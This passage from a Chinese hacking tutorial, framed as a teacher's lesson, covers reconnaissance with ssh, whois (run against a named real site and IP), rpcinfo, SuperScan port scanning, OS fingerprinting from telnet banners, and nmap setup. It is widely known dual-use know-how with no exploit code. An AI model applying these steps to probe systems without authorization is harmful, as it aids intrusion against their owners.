

图 3.11

#### 3.1.8 ssh

ssh 命令主要用于登录开启了 SSH（安全 shell）服务的远程主机。SSH 服务与 Telnet 服务类似，唯一不同的是 telnet 是明文的，很容易被嗅探到，而 ssh 则是加密的。因此，使用 ssh 远程登录维护主机更安全。在 Windows 系统中并没有 ssh 命令，不过却可以使用 Putty 这类的小工具来实现 ssh 的远程登录。在 UNIX/Linux 下，ssh 命令的使用格式为 **ssh -l 登录用户 IP 地址**，如图 3.12。如果不使用“-l 登录用户”的话，命令将以你当前用户的身份登录远程 ssh 主机。



图 3.12

#### 3.1.9 whois

whois 是个很有用的命令。虽然这个命令不能帮助入侵者达到直接入侵的目的，但入侵者使用它却可以得到目标主机的许多信息。我们以 www.sagi.net.cn 网站为例（IP 地址为 61.152.251.212），具体的查询格式为 **whois -h whois.apnic.net 61.152.251.212**，如图 3.13。whois 详细地显示出了对方注册的姓名、详细通信地址、邮政编码、电话号码、服务器所属的 IP 段、联系邮箱地址、最后更新时间等。

上边我们使用的 whois 服务器为 whois.apnic.net，下边我再给出一些常见的 whois 服务器。

- **whois.internic.net**：默认的 whois 服务器，也是许多 whois 查询的起始处。
- **whois.networksolutions.com**：用于一些在 networksolutions 注册域名的客户的服务器。
- **whois.arin.net**：美国 Internet 号段注册的服务器，通常是用于基于 IP 的 whois 查询。
- **whois.apnic.net**：用于亚洲公用网络信息中心 Whois 数据库的服务器。
- **whois.ripe.net**：Réseaux IP Européens，通常是处理大多数欧洲的 whois 查询。



图 3.13

- **whois.nic.gov**：US Government 的 whois 服务器（主要用于 .gov 域名）。
- **whois.nic.mil**：军事（DOD）whois 服务器（主要用于 .mil 域名）。

#### 3.1.10 rpcinfo

rpcinfo 命令可以探测远程 UNIX/Linux 主机上所提供的 RPC 服务。UNIX/Linux 的 RPC 服务（默认使用的是 111 端口）组件中，有许多都曾经存在远程溢出漏洞，像 statd、ttdb、fam、scmd、mountd 等。其使用格式为 **rpcinfo -p IP**，如图 3.14。



图 3.14

台上的 sagi 老师讲到这儿，刚想喝口水继续讲，就听台下的阿虫和阿菜不约而同地抱怨道：“sagi 老师，你昨天已经给我们讲了好多系统命令的使用了，今天又是，这么多的命令我们怎么记得住呀？难道就没有更简单的方法来学习了吗？”

sagi 老师看了一眼黑板上写得满满的命令使用方法，只好说道：“那好吧，关于这些可以用于信息刺探的网络命令我们就学习到这儿。不过一定要记住，这些命令都是非常实用的。事实上，这么多的命令对于初学者来说要想一下子全部记住，还真不容易；幸好许多网络高手都想到了这点，于是编写出了相应的工具。这给我们的学习和使用都带来了极大的方便，接下来，我们就学习各种工具的使用。”

### 3.2 经典扫描工具的详细使用

#### 3.2.1 端口扫描之王 SuperScan

SuperScan 是 Foundstone 公司开发的一款经典的端口扫描工具，功能非常强大，扫描的速度非常快，准确率也非常高。虽然其最新的版本为 4.0，不过许多黑客高手仍然钟爱使用 3.0 版本，我个人也感觉 3.0 版本要比 4.0 版本好用。

SuperScan 启动后的界面如图 3.15 所示，我们在“起始”栏填入要开始扫描的 IP 地址，在“结束”栏填入要结束扫描的 IP 地址，在“扫描类型”中选择“解析主机名”、“显示主机响应”和“扫描所有在列表中选择的端口”，然后点击“开始”按钮，程序就会自动扫描了，如图 3.16。





图 3.15　　图 3.16

前面有个绿色勾号标志的主机，就表示扫描到的主机；而前边是红色叉号标志的主机，就表示没有扫描到，有可能是对方没有接入网络，也有可能是对方的网络防火墙拦截了我们发出的数据。扫描完成后，我们点击右下角的“展开所有”，扫描到的详细信息就会显示出来了，包括对方开放的端口以及相应的服务。再点击“删除”按钮，程序就会自动过滤掉那些没有扫描到的主机，如图 3.17。

如果我们想扫描单个的端口，比如 3389 端口的话，就可以选择“所有端口定义”，然后在后边的框中输入 3389。如果我们想扫描一小段连续的端口，比如 21—80 端口的话，就同样在“所有端口定义”后边的框中输入 21，80。

为了让同学们能够更好地进行扫描，我把一些系统常用的服务（端口）列了出来，大家可以参考一下。

- 21 端口：文件传输协议（FTP）
- 22 端口：SSH（安全 shell），通常只在 UNIX/Linux 下开放
- 23 端口：Telnet 服务
- 25 端口：SMTP 邮件服务
- 53 端口：域名服务
- 80 端口：WEB 服务，通常网站都会开放 80 端口
- 111 端口：SUN Remote Procedure Call，通常只在 UNIX/Linux 下开放
- 135 端口：DCE endpoint resolution，Windows 系统默认开放
- 139 端口：NETBIOS 服务，Windows 系统默认开放
- 389 端口：LDAP（Lightweight Directory Access Protocol，轻量级目录访问协议），通常只在 UNIX/Linux 下开放
- 443 端口：HTTPS，通常只在 UNIX/Linux 下开放
- 445 端口：Microsoft-DS，Windows 系统默认开放
- 554 端口：Real Time Stream Control Protocol，实时流控制协议
- 1433 端口：Microsoft-SQL 服务
- 3306 端口：MySQL 服务
- 3389 端口：Windows 的终端服务



图 3.17

我们点击 SuperScan 右上角的“端口列表”按钮来看一下它的端口列表，如图 3.18。在这儿会看到所有的列表及对应的服务。不过，仔细看我们会发现其中居然没有 3306 和 3389 端口，我们自己来给它添加上。

在左上方的端口中填入 3306，在下方的描述中填入 MySQL server，然后点击“新增”按钮，就会发现在右方的端口列表中已经添加上 3306 端口了，如图 3.19。同样的方法，我们可以添加上 3389，甚至是别的端口信息。





图 3.18

图 3.19

我们在上节课中曾经提过利用 23 端口可以判断远程主机的操作系统类型，不过在SuperScan 中，对于 23 端口的返回信息并不像 21、22、80 等端口那样直接显示出来，而是显示一些特定的符号（大家可以参见一下图 3.17 中 23 端口返回的信息）。不要小看这些特定的符号，事实上从这些特定的字符中我们就可以简单地判断出对方所使用的操作系统类型。

大致的判断方法如下：

- `.%........` …… 基本上为 Windows 系统
- `.%..............` …… 基本上为 Windows 系统
- `..... ..#..'` …… 基本上为 Linux 系统
- `....#..'` …… 基本上为 Linux 系统
- `.%` …… 基本上为 FreeBSD 系统
- `.% ..... ..#..'.$` …… 基本上为 BSD 系统
- `.......#..'.$` …… 基本上为 SunOS 系统
- `.%...` …… 基本上为 AIX 系统
- `.$` …… 基本上为 HP-UX 系统

#### 3.2.2 UNIX/Linux 端口扫描工具 nmap

nmap 是 UNIX/Linux 系统下一个非常著名的端口扫描工具，正是因为其太优秀了，因此高手们已经将其改写成了在 Windows 系统下也可以使用的扫描工具。我们将以 nmap4.2 为例来进行讲解。在使用 nmap 前，我们需要先在自己的系统里安装 WinPcap 才行，事实上还有许多工具（比如 cain）也是需要安装 WinPcap 后才能正常运行的。

WinPcap 的安装非常简单，双击运行安装程序 WinPcap_4_0_beta3.exe，安装界面就会出现了，如图 3.20。点击“Next”后，就会出现安装许可的界面，如图 3.21，直接点“I agree”也就是接受许可，WinPcap 就会自动进行安装了，最后会提示我们安装成功，如图 3.22。







WinPcap 已经安装成功了，我们在 CMD 命令提示符下直接运行 nmap，就会得到其详细的使用说明，如图 3.23。

